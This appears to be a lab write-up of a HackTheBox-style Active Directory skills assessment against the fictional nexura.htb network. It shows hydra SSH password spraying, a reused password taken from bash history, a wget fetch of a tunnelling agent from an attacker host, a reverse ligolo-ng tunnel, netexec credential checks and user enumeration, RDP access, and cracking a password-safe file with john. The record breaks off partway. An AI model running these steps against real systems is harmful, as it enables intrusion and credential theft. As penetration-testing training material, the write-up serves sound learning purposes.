

The Credential Theft Shuffle, as coined by Sean Metcalf, is a systematic approach attackers use to compromise Active Directory environments by exploiting stolen credentials. The process begins with gaining initial access, often through phishing, followed by obtaining local administrator privileges on a machine. Attackers then extract credentials from memory using tools like Mimikatz and leverage these credentials to move laterally across the network. Techniques such as pass-the-hash (PtH) and tools like NetExec facilitate this lateral movement and further credential harvesting. The ultimate goal is to escalate privileges and gain control over the domain, often by compromising Domain Admin accounts or performing DCSync attacks. Sean emphasizes the importance of implementing security measures such as the Local Administrator Password Solution (LAPS), enforcing multi-factor authentication, and restricting administrative privileges to mitigate such attacks.

## Skills Assessment
`Betty Jayde` works at Nexura LLC. We know she uses the password `Texas123!@#` on multiple websites, and we believe she may reuse it at work. Infiltrate Nexura's network and gain command execution on the domain controller. The following hosts are in-scope for this assessment:

Host | IP Address
:--- | :--- 
DMZ01 | 10.129.*.* (External), 172.16.119.13 (Internal)
JUMP01 | 172.16.119.7
FILE01 | 172.16.119.10
DC01 | 172.16.119.11

## Pivoting Primer
The internal hosts (JUMP01, FILE01, DC01) reside on a private subnet that is not directly accessible from our attack host. The only externally reachable system is DMZ01, which has a second interface connected to the internal network. This segmentation reflects a classic DMZ setup, where public-facing services are isolated from internal infrastructure.

To access these internal systems, we must first gain a foothold on DMZ01. From there, we can pivot — that is, route our traffic through the compromised host into the private network. This enables our tools to communicate with internal hosts as if they were directly accessible. After compromising the DMZ, refer to the module cheatsheet for the necessary commands to set up the pivot and continue your assessment.


We start by running an Nmap scan against the external host.


## Nmap

```shell
nmap -Pn -sCV -T4 10.129.234.116
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:08:b0:c4:f3:ca:97:57:64:97:70:f9:fe:c5:0c:7b (RSA)
|   256 45:c3:b5:14:63:99:3d:9e:b3:22:51:e5:97:76:e1:50 (ECDSA)
|_  256 2e:c2:41:66:46:ef:b6:81:95:d5:aa:35:23:94:55:38 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There is only ssh port found open which is quite unusual. Why would you ever wanna open ssh port to the internet?

Although we have a valid user already but we do not have the username yet, so I am going to use username-anarchy to populate potential usernames for this user.


username-anarchy does not come pre-installed with kali linux, so I will clone it from github.

```shell
git clone https://github.com/urbanadventurer/username-anarchy.git
```


Then I will ensure that the file can be executed.

```shell
chmod +x username-anarchy/username-anarchy
```

Then I will use the tool to generate a list of potential usernames for the user.

```shell
username-anarchy/username-anarchy Betty Jayde > betty_jayde.txt
```

```
betty
bettyjayde
betty.jayde
bettyjay
bettjayd
bettyj
b.jayde
bjayde
jbetty
j.betty
jaydeb
jayde
jayde.b
jayde.betty
bj
```

I got 15 usernames but I do not want to test them one by one, so I am going to use hydra to test the username list agains 1 single password.


```shell
hydra -L betty_jayde.txt -p 'Texas123!@#' ssh://10.129.234.116:22
```

```title="Hydra SSH Bruteforce"
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-06-24 02:31:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 15 tasks per 1 server, overall 15 tasks, 15 login tries (l:15/p:1), ~1 try per task
[DATA] attacking ssh://10.129.234.116:22/
[22][ssh] host: 10.129.234.116   login: jbetty   password: Texas123!@#
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-24 02:31:14
```


WIth username as jbetty, I am able to ssh to the external host successfully.


```shell
jbetty@DMZ01:~$ whoami
jbetty
jbetty@DMZ01:~$ id
uid=1001(jbetty) gid=1001(jbetty) groups=1001(jbetty)
jbetty@DMZ01:~$ 
```

this host is dual homed, with an interface on the external network and an interface on the internal network.

```shell
jbetty@DMZ01:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:52:48 brd ff:ff:ff:ff:ff:ff
    inet 10.129.234.116/16 brd 10.129.255.255 scope global dynamic ens160
       valid_lft 3264sec preferred_lft 3264sec
    inet6 dead:beef::250:56ff:fe8a:5248/64 scope global dynamic mngtmpaddr 
       valid_lft 86393sec preferred_lft 14393sec
    inet6 fe80::250:56ff:fe8a:5248/64 scope link 
       valid_lft forever preferred_lft forever
3: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:8a:32:ec brd ff:ff:ff:ff:ff:ff
    inet 172.16.119.13/24 brd 172.16.119.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:32ec/64 scope link 
       valid_lft forever preferred_lft forever

```

I see a clue in the history that indicates there is a password that has been reused, this is what is commonly called as the Credential Theft Shuffle. I will make a note of the new username and password and proceed further.


```shell
jbetty@DMZ01:~$ history | grep -i pass
   25  sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01
   68  passwd
  144  history | grep -i pass
```


Now it is time to create a tunnel between our attacker machine and the internal network. I have always found `ligolo-ng` the best tool for this. 

I spawned an http server on my attacker machine, and then downloaded the ligolo agent on the target using `wget`. I could have done this easily using `scp` too.

```shell
jbetty@DMZ01:~$ wget http://10.10.14.235/agent
--2026-06-24 06:43:28--  http://10.10.14.235/agent
Connecting to 10.10.14.235:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7086264 (6.8M) [application/octet-stream]
Saving to: ‘agent’

agent                        100%[============================================>]   6.76M   482KB/s    in 29s     

2026-06-24 06:43:57 (239 KB/s) - ‘agent’ saved [7086264/7086264]

```

On my attacker machine, I  created a ligolo interface and spawned the proxy.

```shell
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

On the target, the agent connects back to the proxy and creates a tunnel.

```
jbetty@DMZ01:~$ chmod +x agent 
jbetty@DMZ01:~$ ./agent -connect 10.10.14.235:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.14.235:11601"
```

Once the agent is connected to the proxy, I can list out all the interfaces on the target.

```shell
[Agent : jbetty@DMZ01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌─────────────────────────────────────────────────┐
│ Interface 1                                     │
├──────────────┬──────────────────────────────────┤
│ Name         │ ens160                           │
│ Hardware MAC │ 00:50:56:8a:52:48                │
│ MTU          │ 1500                             │
│ Flags        │ up|broadcast|multicast|running   │
│ IPv4 Address │ 10.129.234.116/16                │
│ IPv6 Address │ dead:beef::250:56ff:fe8a:5248/64 │
│ IPv6 Address │ fe80::250:56ff:fe8a:5248/64      │
└──────────────┴──────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens192                         │
│ Hardware MAC │ 00:50:56:8a:32:ec              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.119.13/24               │
│ IPv6 Address │ fe80::250:56ff:fe8a:32ec/64    │
└──────────────┴────────────────────────────────┘
```

I added a route to forward all the traffic coming from the attacker machine to the internal network via the ligolo interface.

```shell
sudo ip route add 172.16.119.0/24 dev ligolo
```

I already got the list of internal IPs as part of rules of engagement and I have added those IPs in a file: internal_ips

I will use `nmap` to scan the ports on the internal network.

```shell
nmap -sC -sV -Pn -T4 -oA reports/nmap_ -iL internal_ips
```

!!! tip
    Nmap scan is going to take time, so now is the time to take a team break if you wanna.

```text
[... Snipped Raw Nmap Output ...]
```

### Scan Summary
The scan identified three internal Windows hosts belonging to the `nexura.htb` domain:

| IP Address | Hostname | Role / Open Ports | Notes |
| :--- | :--- | :--- | :--- |
| **`172.16.119.7`** | `JUMP01` | RDP (3389), WinRM (5985) | Jump server. |
| **`172.16.119.10`** | `FILE01` | SMB (445), RPC (135), RDP (3389), WinRM (5985) | File server. SMB signing is supported but not required. |
| **`172.16.119.11`** | `DC01` | DNS (53), Kerberos (88), LDAP (389/636), SMB (445) | Domain Controller. SMB signing is explicitly required. |

One of the three hosts is a domain controller - our goal.

I am going to test the credentials that I found in the bash history:

```shell
netexec smb 172.16.119.11 -u hwilliam -p 'dealer-screwed-gym1'
```

The credentials are correct!

```
SMB         172.16.119.11   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:nexura.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.119.11   445    DC01             [+] nexura.htb\hwilliam:dealer-screwed-gym1
```


Before I proceed any further, I am going to ensure that I can use kerberos authentication. So, I am first going to ensure that my machine can resolve DC01, my machine time is in sync with the domain controller as kerberos is sensitive is time, and finally I will make sure that the kerberos realm settings are configured correctly.


```shell
sudo ntpdate -u 172.16.119.11

```

```shell
echo "172.16.119.11  DC01 DC01.nexura.htb nexura.htb" | sudo tee -a /etc/hosts
```

```shell
sudo netexec smb 172.16.119.11 -u hwilliam -p 'dealer-screwed-gym1' --generate-krb5 /etc/krb5.conf
```

```
SMB         172.16.119.11   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:nexura.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         172.16.119.11   445    DC01             [+] krb5 conf saved to: /etc/krb5.conf
SMB         172.16.119.11   445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=/etc/krb5.conf
SMB         172.16.119.11   445    DC01             [+] nexura.htb\hwilliam:dealer-screwed-gym1 
```

Let's also extract the usernames from the DC

```shell
netexec smb 172.16.119.11 -u hwilliam -p 'dealer-screwed-gym1' --users | awk '/DC01/ && !/\[\*\]/ && !/\[\+\]/ && !/-Username-/ {print $5}'
```

Apart from administrator, guest and krbtgt, the other users are: 

```
bdavid
stom
hwilliam
```


hwilliam has RDP rights on the Jump server:

```shell
┌──(kali㉿kali)-[~/htb]
└─$ netexec rdp 172.16.119.7 -u hwilliam -p 'dealer-screwed-gym1'
RDP         172.16.119.7    3389   JUMP01           [*] Windows 10 or Windows Server 2016 Build 17763 (name:JUMP01) (domain:nexura.htb) (nla:True)
RDP         172.16.119.7    3389   JUMP01           [+] nexura.htb\hwilliam:dealer-screwed-gym1 (Pwn3d!)

```

Same account also has access to some interesting shares on the fie share server:

```shell

```

Strategy: RDP to .7 and from there access the file shares on .10. If I can access the shares on a nice GUI it will be much easier to navigate the file system for sensitive information. Let me give it a shot:


RDP using `xfreerdp3`:

```shell
xfreerdp3 /u:'nexura.htb\hwilliam' /p:'dealer-screwed-gym1' /v:172.16.119.7
```


Found some interesting ffiles in the HR share but the most interesting one is `Employee-Passwords_OLD.psafe3`. This looks like a password safe file. I am going to download it on my attacker machine for further analysis.




```shell
john psafe3_john
```

```
john psafe3_john --wordlist=/usr/share/wordlists/rockyou.txt
```

Password was cracked within seconds:

```
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 262144 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
michaeljackson   (Employee-Passwords_OLD)     
1g 0:00:01:28 DONE (2026-06-24 08:11) 0.01131g/s 115.8p/s 115.8c/s 115.8C/s total90..1asshole
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

